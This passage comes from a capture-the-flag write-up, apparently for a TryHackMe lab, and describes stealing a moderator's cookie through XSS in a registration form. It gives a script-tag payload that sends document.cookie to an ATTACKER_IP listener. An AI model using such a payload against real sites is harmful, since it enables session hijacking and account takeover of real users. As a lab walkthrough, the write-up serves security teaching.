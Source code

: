 ![image](https://github.com/user-attachments/assets/6132f970-8ad5-4224-9a34-1db760d6880d)

◈ MODERATOR ACCESS VIA XSS

The website has a register page, so I gave a shot.

![image](https://github.com/user-attachments/assets/2541f61c-cce2-4a86-8abf-d89f0de3ec70)

![image](https://github.com/user-attachments/assets/4fe96f75-60ab-449f-99b6-4a78b1435e58)

![image](https://github.com/user-attachments/assets/d91794ac-c8be-4e5f-ab36-30ae35b6339a)

But returned the following error. Page said that I have to visit the domain named login.worldwap.thm.

![image](https://github.com/user-attachments/assets/5d1f2387-deb9-4a88-b8de-17a5eac39e93)

![image](https://github.com/user-attachments/assets/f75091bb-9cde-4fac-8192-c61bee1b9d77)

The same error returned by the website.

At this point, I tried everything, checked page sources, registered several times, searched for valid credentials. But I was missing a hint, the creator left a message for me on the register page.

![image](https://github.com/user-attachments/assets/aa8a37e0-7782-4fe5-bbd4-e235957f2ba0)

The message said, “Your details will be reviewed by the site moderator.”. It means, I have 2 options:

1. I have to find a way to make the moderator review the account that I registered.

2. I have to find a way to get access as a moderator.

Unfortunately, the first one wasn’t a good idea, because I didn’t know how the review flow was working on the website. I have to follow the first option.

To gain access as a moderator, I decided to steal the moderator’s cookie, why? Because when I checked the cookie of my current session, I saw the value of the HttpOnly flag is false. This means, it was possible to steal the moderator’s cookie via XSS, if inputs in the register page was vulnerable.

![image](https://github.com/user-attachments/assets/3bd4974f-ca32-43af-8059-02f5c957ad6d)

For getting moderator’s cookie, I used script tag with window.location method.

PAYLOAD: "<script>window.location=’http://ATTACKER_IP:PORT/?’+document.cookie;</script>"

Or you can use img iframe HTML tags with event handlers like onerror, onbeforescriptexecute, etc.

I tried with both img and script tags.

First, started listener on port 4444, where the website have to send the GET request with cookie.

![image](https://github.com/user-attachments/assets/87dc8a19-1bca-4779-a3ac-04e3e7b0513a)

Adding the payload in Email input:

![image](https://github.com/user-attachments/assets/144aafa9-8afe-4b0e-a9e6-a7d7eeafcc8c)
